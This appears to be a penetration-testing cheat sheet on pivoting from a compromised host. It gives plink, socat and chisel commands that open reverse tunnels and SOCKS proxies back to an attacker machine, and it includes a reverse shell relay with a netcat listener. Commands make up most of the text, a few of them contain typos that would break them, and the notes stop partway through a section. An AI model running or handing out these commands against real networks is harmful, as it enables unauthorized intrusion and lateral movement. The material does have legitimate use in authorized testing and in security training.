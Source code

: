 #### plink
Because windows usually don't have ssh client, we use plink.exe, a windows command line version of PuTTY to make a tunnel. The command is this
```cmd.exe
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```
You need to convert the private key with the putty-tools first
```bash
sudo apt install putty-tools
puttygen KEYFILE -o OUTPUT_KEY.ppk
```
Then send the ppk file to the target windows.
Get the lattest plink.exe here: https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

#### socat
A shell for windows and linux. Can be used for port forwarding. Get the static binaries:
https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat For linux
https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download for windows.
##### reverse shell relay
Used for reverse shell from internal network of the target. The command:
```bash
nc -lvnp 443 # on attacker
./socat tcp-l:8000 tcp:ATTACKING_ip:443 & # on compromised host
```
##### port forwarding - easy
On compromised machine:
```bash
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```
Open port 33060 and forward it to target to pivot in 172.16.0.10 port 3306
##### port forwarding - quiet
Unlike the easy method, this one doesn't open a port in the compromised server.
```bash
socat tcp-l:8001 tcp-l:8000,f fork, resueaddr & #create local port relay, packet sent to 8000 goes out of port 8001
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT, fork & #run on compromised box, connecting to the attacker listening port 8001 and send it to TARGET_PORT port of TARGET_IP target
```
#### chisel
tools for proxy tunnel and port forwarding. https://github.com/jpillora/chisel/releases. The help menu `chisel client|server --help`
##### reverse SOCKS proxy
connect from compromised machine into a listening port on the attacker machine.
```bash
./chisel server -p LISTEN_PORT --reverse & #set in attacker
./chisel client ATTACKING_IP:LISTEN_PORT R:socks & #set in compromised host
```
The opened proxy port on our machine will be shown in the attacker terminal after the connection is established.
##### forward SOCKS proxy
Rarer because egress firewall(outbound traffic) are less stringent than ingress firewall(inbound traffic).
```bash
./chisel server -p LISTEN_PORT --socks5 # set on compromised host
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks #set on attacker
```
Compromised host open LISTEN_PORT. Attacker connect to listen port, and open proxy on PROXY_PORT.
##### remote port forward
connect from compromised host to listening attacker port.
```bash
./chisel server -p LISTEN PORT --reverse & #set on attacker
```